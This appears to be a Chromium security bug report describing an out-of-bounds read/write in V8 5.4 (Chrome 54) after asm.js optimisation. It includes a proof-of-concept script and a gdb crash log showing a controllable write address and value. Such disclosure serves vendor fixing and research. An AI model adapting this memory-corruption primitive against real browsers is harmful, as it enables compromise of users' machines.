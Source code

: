 <b>VULNERABILITY DETAILS</b>
Out of bound read/write is possible after optimizing some asm.js code.

<b>VERSION</b>
Chrome 54.0.2840.71 stable
V8 5.4.500.36 32bit

<b>REPRODUCTION CASE</b>
--------------------------- poc.js -------------
boom0 = (function(stdlib, foreign, heap){
            "use asm";
            var ff = Math.sign;
            var m32 = new stdlib.Int32Array(heap);
            function f(v)
            {
              m32[((1-ff(NaN) >>> 0) % 0xdc4e153) & v] = 0x12345678;
            }
            return f;
         })(this, {}, new ArrayBuffer(256));
%OptimizeFunctionOnNextCall(boom0);
boom0(0xffffffff)
------------------------------------------------

----------------- exploitability ---------------
$ ../../../v8/out/ia32.release/d8 -version
V8 version 5.4.500.36
$ gdb -q --args ../../../v8/out/ia32.release/d8 --allow-natives-syntax ./c2.js
Reading symbols from ../../../v8/out/ia32.release/d8...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/tunz/working/v8/v8/out/ia32.release/d8 --allow-natives-syntax ./c2.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0xf6aa2b40 (LWP 5526)]
[New Thread 0xf62a1b40 (LWP 5527)]
[New Thread 0xf5aa0b40 (LWP 5528)]
[New Thread 0xf529fb40 (LWP 5529)]
[New Thread 0xf4a9eb40 (LWP 5530)]
[New Thread 0xf429db40 (LWP 5531)]
[New Thread 0xf3a9cb40 (LWP 5532)]
[New Thread 0xf329bb40 (LWP 5533)]

Program received signal SIGSEGV, Segmentation fault.
0x518627e3 in ?? ()
(gdb) x/i $pc
=> 0x518627e3:  mov    DWORD PTR [eax*4+0xa521b98],0x12345678
(gdb) i r eax
eax            0x4141415        68424725
----------------------------------------------------

eax register (target address offset) and value are controllable.
In similar way, read is also possible.